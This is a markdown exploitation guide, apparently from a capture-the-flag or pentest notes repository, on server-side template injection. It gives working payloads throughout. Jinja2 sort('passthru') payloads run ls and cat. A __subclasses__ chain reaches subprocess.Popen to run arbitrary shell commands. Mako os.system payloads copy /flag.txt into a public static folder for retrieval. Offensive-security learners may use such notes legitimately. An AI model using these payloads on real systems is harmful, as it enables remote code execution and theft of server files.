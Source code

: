 # Server-Side Template Injection (SSTI)

## Overview
Server-Side Template Injection (SSTI) occurs when user input is embedded in templates on the server side without proper sanitization. This allows attackers to inject and execute arbitrary code using template engine syntax.

## Detection and Exploitation Steps

### 1. Find Injection Point
Look for a user input field that is reflected back on another page. For example, if changing a name in the user profile reflects that change elsewhere, this is a possible injection point.

### 2. Test for SSTI Vulnerability & Identify Template Engine
This page will go through an example with the jinja template engine. To figure out what engine is being used, refer to the following template:
![image](https://github.com/user-attachments/assets/d7f5bf06-7269-46a3-8d2b-419688fdb68d)

Insert the following basic payload and see if it's executed:
```jinja
{{7+7}}
```
If the result shows `14`, then the template engine is likely evaluating the expression.

### 3. Inject Payload
Modify the data field in the intercepted request to reflect information:
```jinja
{{['ls','']|sort('passthru')}}
```
This leverages jinja's `sort` function to execute `ls` and list directory contents.

### 5. View Execution Results
Visit the page where the data is reflected to observe command output.

### 6. Navigate Folders
To change directories and list contents:
```jinja
{{['cd+FOLDER;ls','']|sort('passthru')}}
```

### 8. Read Files
To read a file such as `FILE.txt` in a folder:
```jinja
{{['cat+FOLDER/FILE.txt;ls','']|sort('passthru')}}
```

> **Note:** Receiving a 500 Internal Server Error response can be a positive sign indicating attempted code evaluation.

---

## Troubleshooting SSTI

### 1. Template Engine Detection
Use the following test input template to identify the backend template engine:
![image](https://github.com/user-attachments/assets/d7f5bf06-7269-46a3-8d2b-419688fdb68d)

Through this example, we will be using jinja again.

### 2. Inspect Evaluation
Test with:
```jinja
{{request}}
```
If the response is a 500 error, it's likely being evaluated.

### 3. Dump All Python Subclasses (Jinja2)
Try the following to get all subclasses:
```jinja
{{''.__class__.mro()[1].__subclasses__()}}
```

### 4. Search for `subprocess.Popen`
Iterate through indexes:
```jinja
{{''.__class__.mro()[1].__subclasses__()[390]}}
{{''.__class__.mro()[1].__subclasses__()[391]}}
...
```
Look for: `<class 'subprocess.Popen'>`

### 5. Execute Commands
Once found (example index: 356), use:
```jinja
{{''.__class__.mro()[1].__subclasses__()[356]('id', shell=True, stdout=-1).communicate()[0]}}
```
Replace `'id'` with any other shell command you want to execute.

---

## Example: Mako Template Exploitation (Python)
If the backend uses Mako:

### 1. Execute OS Commands
Try:
```mako
${self.module.cache.util.os.system("id")}
```
If the output of `id` is shown, command execution is successful. If it returns `0`, that means the command executed, but no output is shown.

### 2. Exfiltrate Flags
Use the following to copy a flag file to a public directory:
```mako
${self.module.cache.util.os.system("cp /flag.txt /app/application/static/css")}
```

### 3. Access the File
Then you can `curl` or access the flag via a browser by navigating to the public directory.

---
